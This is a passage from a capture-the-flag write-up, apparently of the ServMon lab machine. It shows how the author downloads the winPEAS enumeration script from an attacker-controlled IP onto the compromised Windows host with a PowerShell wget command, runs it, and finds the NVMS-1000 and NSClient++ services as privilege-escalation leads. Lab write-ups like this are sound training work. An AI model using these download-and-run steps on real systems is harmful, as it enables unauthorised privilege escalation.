 For privesc, we can use `winPEAS.bat` to see all of the services on the server. Here we tried to download from our local machine to server machine using `powershell.exe wget`

```
nadine@SERVMON C:\>powershell.exe wget "http://10.10.14.15:80/winPEAS.bat" -outfile "c:\temp\winPEAS.bat"

nadine@SERVMON C:\>cd c:\temp

nadine@SERVMON c:\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of c:\Temp

12/05/2020  08:40    <DIR>          .
12/05/2020  08:40    <DIR>          ..
12/05/2020  08:37                 0 powershell.exe
12/05/2020  08:40            32,976 winPEAS.bat
               2 File(s)         32,976 bytes
               2 Dir(s)  27,863,298,048 bytes free

nadine@SERVMON c:\Temp>
```

Run the `winPEAS.bat` program and see the services that are running on the administrator, below the output from winPEAS.bat.

```
<redacted>
Common Files
Common Files
InstallShield Installation Information
Internet Explorer
Internet Explorer
Microsoft.NET
ModifiableWindowsApps
NSClient++
NVMS-1000
Reference Assemblies
Reference Assemblies
UNP
VMware
Windows Defender
Windows Defender
Windows Defender Advanced Threat Protection
Windows Mail
Windows Mail
Windows Multimedia Platform
Windows Multimedia Platform
Windows NT
Windows NT
Windows Photo Viewer
Windows Photo Viewer
Windows Portable Devices
Windows Portable Devices
Windows Security
WindowsPowerShell
WindowsPowerShell
    InstallLocation    REG_SZ    C:\Program Files\VMware\VMware Tools\
    InstallLocation    REG_SZ    C:\Program Files (x86)\NVMS-1000\
    InstallLocation    REG_SZ    C:\Program Files (x86)\NVMS-1000\
<redacted>
```
From the output displayed, it can be seen that the services running and connecting to the server are NVMS-1000 and NSClient++, and also we can see on winPEAS result used ports